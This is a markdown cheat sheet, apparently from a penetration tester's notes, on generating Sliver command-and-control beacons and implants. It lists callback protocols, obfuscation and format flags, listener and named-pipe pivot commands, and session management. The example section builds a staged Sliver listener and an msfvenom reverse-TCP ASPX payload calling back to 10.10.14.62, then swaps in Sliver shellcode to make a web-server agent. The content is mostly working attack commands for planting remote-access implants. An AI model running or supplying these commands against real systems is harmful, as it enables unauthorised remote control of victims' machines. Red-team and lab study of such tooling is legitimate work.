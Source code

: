 # Sliver payload generation

[Generic Beacon / Implant generation](sliver-payload-generation.md#generic-beacon-implant-generation-1)

[Named Pipe Payload Generation](sliver-payload-generation.md#named-pipe-payload-generation)

[Example](sliver-payload-generation.md#example)

#### Generic Beacon / Implant generation

To generate payloads do this. Keep in mind you can substitute http for mtls, wireguard (wg), and dns. Keep in mind just removing the `beacon`tag will make this into an implant

```bash
generate beacon --http <lhost> -N http_beacon --os windows
```

Some helpful flags to consider when generating beacons are:

```bash
--http            # Uses http callbacks
--mtls            # Uses mTLS callbacks
--dns             # Uses DNS callbacks 
-e                # Enables ofbuscation tactics
--os              # Specify the operating system
-J 5              # Sets a jitter time of 5 seconds
-S 5              # Sets callback time to 5 seconds
--format          # exe, shared (dll), service, shellcode
```

to start your listener just type&#x20;

```bash
http
OR
http --lport 8088
```

#### Named Pipe Payload Generation&#x20;

Start your named-pipe listener on a interactive session

```bash
pivots named-pipe --bind hack
```

After that you can generate a pivot implant using this command

```bash
generate --named-pipe <ip>/pipe/hack -N hack_pipe
```

#### Session Management

```bash
sessions         # Lists active / inactive sessions
sesskions -K     # Removes all sessions available or not
sessions prune   # Removes unavailable sessions
sessions -k -i <session> # Removes specific session
beacons          # lists active/inactive beacons
interactive      # turns a beacon into an interactive session
```

#### Example

```bash
profiles new --http <ip>:8088 --format shellcode hack
stage-listener --url tcp://<ip>:4443 --profile hack
http -L <ip> -l 8088
generate stager --lhost <ip> --lport 4443 --format csharp --save staged.txt
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.62 LPORT=4443 -f aspx > sliver.aspx
# Replace the msf shellcode with the sliver shellcode and you have a good aspx agent
```


